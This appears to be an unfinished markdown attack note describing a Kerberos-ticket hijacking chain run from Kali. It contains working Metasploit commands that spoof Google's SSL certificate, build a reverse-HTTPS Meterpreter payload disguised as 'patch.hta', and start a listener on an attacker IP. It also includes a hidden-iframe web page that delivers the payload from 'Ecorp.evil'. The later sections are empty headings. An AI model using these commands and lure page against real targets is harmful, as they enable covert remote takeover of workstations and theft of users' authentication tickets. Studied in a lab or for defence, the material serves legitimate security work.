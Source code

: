 # Hijacking Kerberose Tickets
> Jacking kerberos tickets to remotely access the intranet.
> The noted describe a process that is run from Kali

1. Attacker creates a web page seving a malicous HTA file
2. Target browses the attacker-sent web page & executes the served HTA file
3. Meterpreter session is established
4. Malicous Code Injection
	- A: PowerShell script for recon against browser is injected into the target workstation's memory.
	- B: gssapu-proxy is dropped and executed.  The attacker can connect to port 8080 & browse the intranet, hijacking the target's active Kerberose tickets.


## 1. Malicous HTA File

1. Craft Malicous HTA File

```bash
service postgressql start
msfconsole

# MSF

msf5 use auxilary/gather/impersonate_ssl
msf5 auxilary(mpersonste_ssl)> set RHOST www.google.com
msf5 auxilary(mpersonste_ssl)> run
```

The output of *run* will include a `[+] www.google.com:443 - pem: /location/to/pem.pem`.

```bash
# MSF
msf5 auxilary(mpersonste_ssl)> use payload/windows/meterpreter/reverse_https
msf5 payload(windows/meterpreter/reverse_https)> set LHOST [evil external IP]
msf5 payload(windows/meterpreter/reverse_https)> set LPORT 443
msf5 payload(windows/meterpreter/reverse_https)> set stagerverifysslcert true
msf5 payload(windows/meterpreter/reverse_https)> set HANDLERSSLCERT /location/to/pem.pem
msf5 payload(windows/meterpreter/reverse_https)> generate -f hta-psh -o /tmp/patch.hta  #See Note Below
msf5 payload(windows/meterpreter/reverse_https)> back
msf5 use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set LHOST [external OR internal IP depending on the setup]
msf5 exploit(multi/handler) > set LPORT 443
msf5 exploit(multi/handler) > set stagerverifysslcert  true
msf5 exploit(multi/handler) > set HANDLERSSLCERT /location/to/pem.pem
msf5 exploit(multi/handler) > set exitonsession false
msf5 exploit(multi/handler) > exploit -j
```

**generate** Note: This could throw an error depending on the version of MSF you are using.
Older versions of msf use slightly different option flags.  Check the options for your version.

This may work instead: `generate -t hta-psh -f /tmp/patch.hta`

The `-t` was for output format but in `msf5>` it is `-f`

The `-f` was for output filename but in `msf5>` it is `-o`

**Simple HTML page** te server the HTA file just created
```html
<html>
<head>
<body>
<div style="display:none;">
	<iframe id="frmDld" src:"http://Ecorp.evil/patch.hta"></iframe>
</div>
</body>
</head>
</html>
```



## 2. HTA File is Executed


## 3. Meterpreter Session


## 4. Malicous Code Injection
